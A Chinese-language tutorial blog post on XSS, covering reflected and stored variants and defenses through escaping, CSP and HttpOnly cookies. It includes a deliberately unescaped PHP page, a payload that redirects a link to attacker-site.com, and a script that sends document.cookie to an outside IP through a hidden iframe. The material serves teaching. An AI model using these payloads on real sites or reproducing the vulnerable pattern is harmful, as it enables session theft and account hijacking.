 # XSS 跨站脚本攻击


---

随着互联网技术的发展，现在的Web应用都含有大量的动态内容以提高用户体验。所谓动态内容，就是应用程序能够根据用户环境和用户请求，输出相应的内容。动态站点会受到一种名为“跨站脚本攻击”（Cross Site Scripting, 安全专家们通常将其缩写成 XSS）的威胁，而静态站点则完全不受其影响。

##什么是 XSS
XSS 是一种常见的 web 安全漏洞，它允许攻击者将恶意代码植入到提供给其它用户使用的页面中。不同于大多数攻击(一般只涉及攻击者和受害者)，XSS 涉及到三方，即攻击者、客户端与Web应用。XSS 的攻击目标是为了盗取存储在客户端的 cookie 或者其他网站用于识别客户端身份的敏感信息。一旦获取到合法用户的信息后，攻击者甚至可以假冒合法用户与网站进行交互。

**总之，XSS 能做用户使用浏览器能做的一切事情。包括获取用户的 cookie 等重要隐私信息的操作。另外，同源策略无法保证不受 XSS 攻击，因为此时攻击者就在同源之内**

##XSS 工作原理
XSS通常可以分为两大类：

- 客户端型
- 服务端型

无论是哪一种 XSS，其目前主要的手段和目的如下：

- 盗用cookie，获取敏感信息。
- 利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
- 利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）- 用户的身份执行一些管理动作，或执行一些如:发微博、加好友、发私信等常规操作，前段时间新浪微博就遭遇过一次XSS。
- 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
- 在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果

###客户端型 xss 攻击

客户端型 xss 攻击是一次性的，仅对当次的页面访问产生影响。客户端型 xss 攻击要求用户访问一个被攻击者篡改后的链接，用户访问该链接时，被植入的攻击脚本被用户游览器执行，从而达到攻击目的。

假设有以下index.php页面：
```
<?php
$name = $_GET['name'];
echo "Welcome $name<br>";
echo "<a href="http://www.cnblogs.com/bangerlee/">Click to Download</a>";
?>
```
该页面显示两行信息：

从URI获取 'name' 参数，并在页面显示
显示跳转到一条URL的链接
这时，当攻击者给出以下URL链接：
```
index.php?name=guest<script>alert('attacked')</script>
```
当用户点击该链接时，将产生以下html代码，带'attacked'的告警提示框弹出：
```
Welcome guest
<script>alert('attacked')</script>
<br>
<a href='http://www.cnblogs.com/bangerlee/'>Click to Download</a>
```

除了插入alert代码，攻击者还可以通过以下URL实现修改链接的目的：

```
index.php?name=
<script>
window.onload = function() {
var link=document.getElementsByTagName("a");link[0].href="http://attacker-site.com/";}
</script>
```
当用户点击以上攻击者提供的URL时，index.php页面被植入脚本，页面源码如下：
```
<script>
window.onload = function() {
var link=document.getElementsByTagName("a");link[0].href="http://attacker-site.com/";}
</script>
<br>
<a href='http://www.cnblogs.com/bangerlee/'>Click to Download</a>
```
用户再点击 "Click to Download" 时，将跳转至攻击者提供的链接。

##服务端型 XSS 攻击
服务端型的 XSS 攻击与客户端型的运行原理类似。 其本质上是注入攻击。区别在于服务端型的恶意代码可以复用，并且不需要引诱用户点击某个连接。

还记得之前浏览器同源策略的知识吗？
浏览器的同源策略虽然对 ajax 请求做了限制，现代浏览器对于某些 xss 而已代码也做了过滤。但是，对于服务端返回的嵌入式资源的跨域交互是允许的！

黑客将将恶意代码通过某个操作，写入被攻击服务器的数据库中，接着在某个数据列表展示页面中通过嵌入 js 代码，迫使用户的浏览器执行恶意 javascript 代码来达到 XSS 攻击的目的。
就像下面这样：
```
// 用 <script type="text/javascript"></script> 包起来放在评论中

(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);

```
##如何避免 XSS 攻击
- 对于任何用户输入的信息，入库之前都要进行转义。
- 使用浏览器自带的 xss filter
现代浏览器都对反射型xss有一定的防御力，其原理是检查url和dom中元素的相关性。但这并不能完全防止反射型xss。另外，浏览器对于存储型xss并没有抵抗力，原因很简单，用户的需求是多种多样的。所以，抵御xss这件事情不能指望浏览器。
- CSP(Content Security Policy)
从原理上说防止xss是很简单的一件事，但实际中，业务代码非常多样和复杂，漏洞还是是不是会出现。 CSP 并不是用来防止xss攻击的，而是最小化xss发生后所造成的伤害。事实上，除了开发者自己做好xss转义，并没有别的方法可以防止xss的发生。CSP可以说是html5给web安全带来的最实惠的东西。。CSP的作用是限制一个页面的行为不论是否是javacript控制的。如何引入CSP呢？

假设现在需要完成一个只允许脚本从本源加载资源的设置，则有两种方式。

*通过response头*
```Content-Security-Policy: script-src ‘self’```
*通过HTML的META标签*
```<meta http-equiv=”Content-Security-Policy” content=”script-src ‘self'”>```
*CSP 策略常用限制功能*
```
base-uri : 限制这篇文档的uri  
child-src ：限制子窗口的源(iframe,弹窗等),取代frame-src  
connect-src ：限制脚本可以访问的源  
font-src : 限制字体的源  
form-action : 限制表单能够提交到的源  
frame-ancestors : 限制了当前页面可以被哪些页面以iframe,frame,object等方式加载  
frame-src ：deprecated with child-src,限制了当前页面可以加载哪些源，与frame-ancestors对应 
img-src : 限制图片可以从哪些源加载  
media-src : 限制video, audio, source, track 能够从哪些源加载  
object-src ：限制插件可以从哪些源加载  
sandbox ：强制打开沙盒模式

```

CSP是一个强大的策略，几乎可以限制了所有能够用到的资源的来源。使用好CSP可以很大成都降低XSS带来的风险
CSP 目前有两版，CSP1 和CSP2， 两版的支持状态可以在 http://caniuse.com/#search=csp 中查到。

- Http-Only
使用 http-only 保护cookie。可以保证即使发生了xss，用户的cookie也是安全的。使用http-only 保护的cookie是不会被 javascript 读写的。所以无论是客户端还是服务端的 XSS 攻击，都无法通过 js 获取到用户的 cookie 信息。


##总结
XSS 与 CSRF 攻击都是属于高危攻击手段。即使是在现代浏览器、同源策略以及 html5 的强大防线下，他们依然能够对 web 应用产生巨大的危害。
在开发 web 应用时，应该合理利用 http-only、CSP 策略、以及用户输入信息转义，能够将 XSS 与 CSRF 的风险降到最低。

---
#####参考链接
- [避免 SQL 注入](https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/09.4.md), by wuyuanwei
- [Web 攻击与防护](http://liuwanlin.info/webgong-ji-yu-fang-hu/), by liuwulin
- [浏览器的同源策略](https://developer.mozilla.org/zh-CN/docs/Web/Security/Same-origin_policy)
- [总结 XSS 与 CSRF 两种跨站攻击](https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/)
- [XSS 攻击入门](http://www.cnblogs.com/bangerlee/archive/2013/04/06/3002142.html)
- [关于Web安全，99%的网站都忽略了这些](https://blog.wilddog.com/?p=290), by wilddog
- [预防跨站点请求伪造：了解浏览器选项卡中的隐藏危险](https://www.ibm.com/developerworks/cn/web/se-appscan-detect-csrf-xsrf/)
- [CSRF 攻击的应对之道](http://www.importnew.com/5839.html)

若文章有幸帮到了您，您可以捐助我。以鼓励我写出更棒的作品！
![alipay.jpg-17.7kB][1]![wechat.jpg-16.7kB][2]


[1]: http://static.zybuluo.com/mikumikulch/6g65s5tsspdmsk87a8ariszo/alipay.jpg
[2]: http://static.zybuluo.com/mikumikulch/rk5hldgo4wi9fv23xu3vm8pf/wechat.jpg



